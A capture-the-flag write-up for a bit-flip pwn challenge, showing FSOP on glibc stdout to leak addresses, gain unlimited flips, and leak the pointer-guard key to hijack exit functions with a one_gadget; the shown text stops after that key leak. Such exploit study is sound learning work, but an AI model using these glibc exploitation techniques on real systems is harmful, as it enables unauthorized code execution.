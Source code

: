 I did not solve this challenge but I decided to look back at it because I wanted to learn FSOP and overwriting exit funcs with one gadget.

## Challenge

This challenge provides us with 4 bit flips, and our addresses are calculated at an offset from `_IO_2_1_stdin_`. The path to a solution, as with many other bit flip challenges, is to first get infinite bit flips for arbitrary write. The bit flip counter is stored in the base program’s bss, but PIE is enabled. Our goal should be to leak the base address before our 4th bit flip so that we can overwrite the counter. The flip being relative to stdin hints that we will need some form of leak-oriented FSOP. (https://enzo.run/posts/lactf2024/#flipma)

```
stdout = 0xd20
write_base = stdout + 0x20
read_end = stdout + 0x10
```

First we will calculate the location of `_IO_2_1_stdin_` and its fields.

```
sla(b"a: ", "9")
sla(b"b: ", "9")
```

For this to work, we also need to make sure the _IO_CURRENTLY_PUTTING flag is set, and I initially thought we needed to use a bit flip on this, but just initializing stdout with an additional puts before the flips also works.

![image](https://github.com/user-attachments/assets/5da04128-6251-4532-99b4-1b853b01c373)

Next, we need to find a suitable location to leak the elf address. Using the search command in pwndbg, we can see there are 2 addresses in libc that contain the bytes of our elf section.

![image](https://github.com/user-attachments/assets/25c45ff4-9e6d-4f5b-8690-b90f8936ee96)

Unbuffered file streams hold libc addresses to themselves in the buffer fields.

![image](https://github.com/user-attachments/assets/5622ca66-3003-45b0-921e-33b93118e6c0)

The idea is to flip a bit in stdout->write_base `0x00007fd8a201a723` to become `0x00007fd8a2018723`. We can see that `0x7fd8a2018f4a 0xa4200000562941ac` will be located between the stdout->write_base and stdout->write_ptr.

but the file write function called from puts will treat the stream as buffered as long as there is a difference between _IO_write_base and _IO_write_ptr. This will cause the write function to print out memory from libc between those two addresses.

### Recap

To force flush the buffer with its contents:

- Ensure the _IO_CURRENTLY_PUTTING flag is set
- We need to set stdout->read_end = stdout->write_base
- Ensure stdout->write_ptr = stdout->write_end

So we will need to:

- Give an invalid index to make the program call puts with error message
- Change stdout->read_end and stdout->write_base to a location right before our leak location

```py
# _IO_write_base
sla(b"a: ", str(write_base+1))
sla(b"b: ", "5")

# _IO_read_end
sla(b"a: ", str(read_end+1))
sla(b"b: ", "5")
```

![image](https://github.com/user-attachments/assets/6829df7e-2dac-49aa-a274-27bc3c8d18ba)

After running the script above, we can see now in our IO File struct, our target is located between write_base and write_ptr.

```py
sla(b"a: ", "9")
sla(b"b: ", "9")

data = p.recvuntil(b"we're flipping bits, not burgers", timeout=1)
if len(data) < 100:
  print("failed")
  exit(1)

diff = 0x7f0c55badf4a - 0x00007f0c55bad723
elf_leak = u64(data[diff-2:diff+6])
exe.address = elf_leak - (0x55ff52d83020 - 0x55ff52d7f000)
li(f"exe addr @ {hex(exe.address)}")
```

![image](https://github.com/user-attachments/assets/ea0f0745-5cdb-45e4-a98e-669f0feeaecf)

We can find the offset of our leak by subtracting the leak location with the write_base.

```py
print(len(str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"])))
print(hex(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))

## Make flip to big number
sla(b"a: ", str(exe.sym["flips"] - libc.sym["_IO_2_1_stdin_"]))
sla(b"b: ", "7")
```

![image](https://github.com/user-attachments/assets/428f0589-5f67-48c2-82e9-cbe7f4ac4124)

We have a lot more flips now.

### Overwrite the exit funcs to one gadget

Lets find a suitable one gadget

![image](https://github.com/user-attachments/assets/534b33e2-7fa9-4809-a3e5-dcda6d6f8454)

![image](https://github.com/user-attachments/assets/4dd71422-ae29-4fae-9dd6-d0ae420e4c72)

Set a breakpoint at `__libc_start_main` and move through each instruction until you reach the `call rdx`. We can see r12 and r15 is NULL which matches the condition for 0xe3afe. Now that we know which one gadget to use, its time for the next step. Whenever a program exits, it will go through a list of exit functions.

![image](https://github.com/user-attachments/assets/3b9cc575-dfe2-4216-b47e-7023a26e3157)

The image above shows the exit funcs struct. We can see a list of functions defined there. By default, there is a function that is always called which is `_dl_fini`. It is stored in the list with flavor 4. The pointer is mangled because it will be encrypted with a key located in fs register.

![image](https://github.com/user-attachments/assets/26b5c826-f9f1-494b-8ae1-31d880e311d7)

When decrypting the mangled pointer, it will rotate right by 0x11 bytes and XOR with a key stored at fs:0x30. 

![image](https://github.com/user-attachments/assets/ed92f125-0e78-4d01-8ff4-37bfc5519a15)

Run the `fsbase` command in pwndbg to see the address of fs. So, our next goal will be to use FSOP to leak this key. It could also be possible to overwrite the key with 0.

```py
def write_to_addr(target, current, addr):
  bits = target ^ current
  print(f"{hex(bits)=}")
  for i, v in enumerate(bin(bits)[2:][::-1]):
    print(i, v)
    byte_num = i // 8
    bit_num = i % 8
    if v == "1":
      sla(b"a: ", str(addr - libc.sym["_IO_2_1_stdin_"] + byte_num))
      sla(b"b: ", str(bit_num))

shortbuf = 0x83 + libc.symbols["_IO_2_1_stdout_"]

## set stdout->write_base = fskey
## set stdout->read_end = fskey
## set stdout->write_ptr = fskey + 8
write_to_addr(fskey, shortbuf, libc.symbols["_IO_2_1_stdout_"] + 0x10)
write_to_addr(fskey, shortbuf, libc.symbols["_IO_2_1_stdout_"] + 0x20)
write_to_addr(fskey+8, shortbuf, libc.symbols["_IO_2_1_stdout_"] + 0x28)

sla(b"a: ", "9")
sla(b"b: ", "9")
```


